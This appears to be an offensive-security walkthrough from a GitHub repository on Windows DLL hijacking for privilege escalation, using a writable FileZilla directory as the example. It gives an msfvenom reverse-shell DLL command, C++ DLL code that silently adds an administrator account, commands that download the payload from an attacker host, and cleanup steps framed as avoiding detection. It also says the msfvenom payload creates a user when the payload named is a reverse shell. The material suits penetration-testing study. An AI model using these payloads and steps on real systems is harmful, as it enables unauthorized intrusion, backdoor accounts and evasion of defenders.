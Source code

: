 ## DLL Hijacking

### Overview
Dynamic Link Libraries (DLLs) are essential components in Windows systems that provide shared functionality for applications and services. When an application or service looks for a required DLL, it follows a predefined **DLL search order**:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

A misconfiguration or missing DLL can create an opportunity for **DLL Hijacking**, where a malicious DLL placed in a writable directory is loaded instead of the legitimate one. If the application runs with elevated privileges, the malicious DLL will execute with the same level of access.

---

### Step 1: Identify Writable Directories and Missing DLLs
First, identify directories where you have write permissions and locate missing DLLs being searched for by applications or services.

1. **Search for Writable Directories**:
   Run **WinRecon.ps1** to enumerate writable directories and check for vulnerable DLLs:
   - **Option 2**: Run Custom Recon - (Select which functions to enable).
   - **Option 18**: Perform DLL Hijacking checks against known vulnerable software and directories.

Example Output:

![image](https://github.com/user-attachments/assets/6639ec58-b090-4e72-9af0-687bc28daaa4)
![image](https://github.com/user-attachments/assets/475bbb6b-f128-4c6f-bf3f-b4c71f199678)


In this example, the `FileZilla` application directory is writable, and the program attempts to load `TextShaping.dll`, making it a potential candidate for DLL hijacking.

---

### Step 2: Confirm Writable Permissions
Verify that the identified directory allows you to write files:

```powershell
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

Check if the file was successfully created:
```powershell
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

If successful, you have sufficient permissions to place a malicious DLL in this directory.

---

#### Step 3: Create a Malicious DLL
-
  ### Option 1: Using msfvenom
  -
    On our attacker machine (e.g., Kali Linux), use `msfvenom` to generate a malicious executable that creates a new user and adds it to the Administrators group:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll -o EnterpriseServiceOptional.dll
    ```
-
  ### Option 2. Compile with the following C program:

  -
    #### Malicious DLL Code in C++:
    ```cpp
    #include <stdlib.h>
    #include <windows.h>

    BOOL APIENTRY DllMain(
    HANDLE hModule,// Handle to DLL module
    DWORD ul_reason_for_call,// Reason for calling function
    LPVOID lpReserved ) // Reserved
    {
        switch ( ul_reason_for_call )
        {
            case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
                i = system ("net user taskmgrsvc Password123! /add");
                i = system ("net localgroup administrators taskmgrsvc /add");
            break;
            case DLL_THREAD_ATTACH: // A process is creating a new thread.
            break;
            case DLL_THREAD_DETACH: // A thread exits normally.
            break;
            case DLL_PROCESS_DETACH: // A process unloads the DLL.
            break;
        }
        return TRUE;
    }
    ``` 
---

#### Compile the DLL:
On your Kali machine, cross-compile the DLL using `mingw-w64`:

```bash
x86_64-w64-mingw32-gcc <File>.cpp --shared -o <File>.dll
```

- **`--shared`**: Generates a DLL file.
---

### Step 4: Transfer the DLL to the Target Directory
Host the DLL on your attacker machine and download it to the writable directory on the target system:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target system, download the DLL using PowerShell:
   ```powershell
   iwr -uri http://<attacker_ip>/TextShaping.dll -OutFile 'TextShaping.dll'
   ```
   ```powershell
   powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://<attacker_ip>/TextShaping.dll', 'TextShaping.dll')"
   ```
3. Move File
   ```powershell
   move TextShaping.dll 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
4. Confirm the file exists:
   ```powershell
   ls 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```

---

### Step 5: Trigger the DLL Hijacking
The DLL hijacking will occur when a higher-privileged user or system process runs the application. For example, when the `FileZilla` application is executed by an administrator or another user with elevated permissions, the malicious DLL will be loaded from the writable directory.

Wait for the application to be executed by someone with higher privileges.

---

### Step 6: Verify Exploitation
After the DLL executes, verify that the new user has been created and added to the Administrators group:

1. Check for the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the malicious DLL was loaded, and the `taskmgrsvc` account was successfully added to the Administrators group.

---

### Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious DLL:
   ```powershell
   del 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### Notes:
- Missing DLLs provide a great opportunity for code execution, especially if the search order allows loading from writable directories.
- Always verify writable permissions before deploying malicious DLLs.

---

### References
- [HackTricks - DLL Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

---
